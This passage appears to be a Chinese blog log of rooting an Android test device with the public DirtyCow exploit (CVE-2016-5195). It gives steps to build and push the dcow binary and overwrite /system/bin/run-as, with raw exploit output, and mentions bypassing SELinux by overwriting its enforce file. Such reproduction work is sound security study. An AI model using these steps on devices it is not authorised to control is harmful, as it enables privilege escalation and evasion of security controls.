 ```bash
crw-rw-rw- root     root       1,   3 1970-01-01 08:00 null
-r--r--r-- root     root       175212 1970-01-01 08:00 policy
dr-xr-xr-x root     root              1970-01-01 08:00 policy_capabilities
-r--r--r-- root     root            0 1970-01-01 08:00 policyvers
-r--r--r-- root     root            0 1970-01-01 08:00 reject_unknown
-rw-rw-rw- root     root            0 1970-01-01 08:00 relabel
-r--r--r-- root     root            0 1970-01-01 08:00 status
-rw-rw-rw- root     root            0 1970-01-01 08:00 user
```

应该就是这玩意了，这`policy`文件和根目录下的`sepolicy`大小相同，应该就是他了，但是我甚至都无法读取这个文件，不知为何。找到一篇bypass selinux的文章，就是覆盖这个目录下的enforce文件，使其从1变成0，但是我都读不出来enforce的内容...文章链接：[Bypass SELinux on Android](https://shunix.com/bypass-selinux-on-android/)

## DirtyCow root android

网上能找到的好多文章都是利用DirtyCow写个root用户的文件就完事了，如：[DirtyCow（脏牛）漏洞复现](https://blog.csdn.net/wanzt123/article/details/81879680)

利用DirtyCow进行完整的androidroot的文章并不多，找到了如下工具以及文章：

- [搞了一个基于 dirtycow 的 Android 的 root 工具](https://www.v2ex.com/t/335989)
- [timwr/CVE-2016-5195](https://github.com/timwr/CVE-2016-5195)

第一个是64位的，据说可以bypass selinux，第二个可用但是无法绕过selinux，主要使用第二个工具进行了一系列的测试，使用方法：

- adb devices 确认设备已连接
- 在exp目录下执行make root，按照makefile的内容会自动弹出一个来自设备的root shell
- 但是并不弹出，执行一会可以另开一个终端进入adb shell，然后执行run-as，即可得到一个root的shell

```bash
➜  CVE-2016-5195 make root
ndk-build NDK_PROJECT_PATH=. APP_BUILD_SCRIPT=./Android.mk APP_ABI=armeabi-v7a APP_PLATFORM=android-22
make[1]: Entering directory `/Users/wangyuxuan/Desktop/pwn/dirtycow/CVE-2016-5195-47461529aa629433fea956b44dab487d4486b629'
[armeabi-v7a] Install        : dirtycow => libs/armeabi-v7a/dirtycow
[armeabi-v7a] Compile thumb  : run-as <= run-as.c
[armeabi-v7a] Executable     : run-as
[armeabi-v7a] Install        : run-as => libs/armeabi-v7a/run-as
make[1]: Leaving directory `/Users/wangyuxuan/Desktop/pwn/dirtycow/CVE-2016-5195-47461529aa629433fea956b44dab487d4486b629'
adb push libs/armeabi-v7a/dirtycow /data/local/tmp/dcow
libs/armeabi-v7a/dirtycow: 1 file pushed. 0.1 MB/s (9844 bytes in 0.108s)
adb shell 'chmod 777 /data/local/tmp/dcow'
adb shell 'chmod 777 /data/local/tmp/dcow'
adb push libs/armeabi-v7a/run-as /data/local/tmp/run-as
libs/armeabi-v7a/run-as: 1 file pushed. 0.1 MB/s (9844 bytes in 0.124s)
adb shell '/data/local/tmp/dcow /data/local/tmp/run-as /system/bin/run-as'
WARNING: linker: /data/local/tmp/dcow: unused DT entry: type 0x6ffffffe arg 0x828
WARNING: linker: /data/local/tmp/dcow: unused DT entry: type 0x6fffffff arg 0x2
dcow /data/local/tmp/run-as /system/bin/run-as
warning: new file size (9844) and destination file size (9436) differ

corruption?

[*] size 9844
[*] mmap 0x76efc000
[*] currently 0x76efc000=464c457f
[*] using /proc/self/mem method
[*] madvise = 0x76efc000 9844
[*] madvise = 0 16777216
[*] /proc/self/mem -781978392 356866
[*] exploited 0 0x76efc000=464c457f

➜  CVE-2016-5195 adb shell
```